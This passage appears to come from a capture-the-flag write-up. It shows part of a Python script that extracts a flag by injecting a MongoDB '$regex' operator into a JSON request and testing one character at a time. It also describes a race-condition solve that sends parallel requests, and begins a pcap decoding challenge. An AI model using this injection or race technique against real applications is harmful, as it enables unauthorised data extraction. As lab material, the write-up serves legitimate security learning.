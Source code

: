 ```python
{
    "fruits": [
        "Grape",
        "Grape",
        "Grape",
        {"\\u0024regex": "^''' + current_flag + test_char + '''"},
        "Grape"
    ]
}'''

        http_response = requests.post(URL, data=request_data, headers={"Content-Type": "application/json"})
        resp_j = http_response.json().get("message", "")

        print(f"{current_flag + test_char}, {resp_j}")

        if resp_j == "Enjoy your salad!":
            current_flag += test_char
            ok = True
            #print(f"Partialflag: {current_flag}\n")
            break
```
**Flag : <span style="color:rgb(60, 179, 113)"> {% raw %}CTF{a6b3903d2bc9379f388e5434a882aa2a1502fd30ab8a07b9673fba6f58fae5dc}{% endraw %}</span>**

### formula1 (Web)
Description: 
```
Only a champion can win this race. Enter the secret pit stop and claim your flag!
```

The challenge was a web application that allowed us to enter a name and pit stop. Hint from the challenge description: `Only a champion can win this
race`, so I tried to exploit a race condition vulnerability. The application was vulnerable. I used BurpSuite to create 40 requests with the name=max from Max Verstappen and pit stop=33 and send in parallel.

Solution:
![Soluion Formula1](https://github.com/user-attachments/assets/b55a2611-0d42-489c-9ca8-987b695a1dd9)

**Flag : <span style="color:rgb(60, 179, 113)"> {% raw %}CTF{0c7a73dbf9b5e7c97ddce7c90c6876de8194346d5f4bddacfb821dc254f2f414}{% endraw %}</span>**

### exfill - very funny (Network/Cryptography)
Description: 
``` 
Extract the flag from the pcap.
```

The challenge was a pcap file that contained a lot of packets. I used Wireshark to analyze the packets and I found the User-Agent header contains Chuck Norris encoding and Decabit encoding. I used Scapy to extract the User-Agent header and then I decoded the message using the Chuck Norris and Decabit encoding.
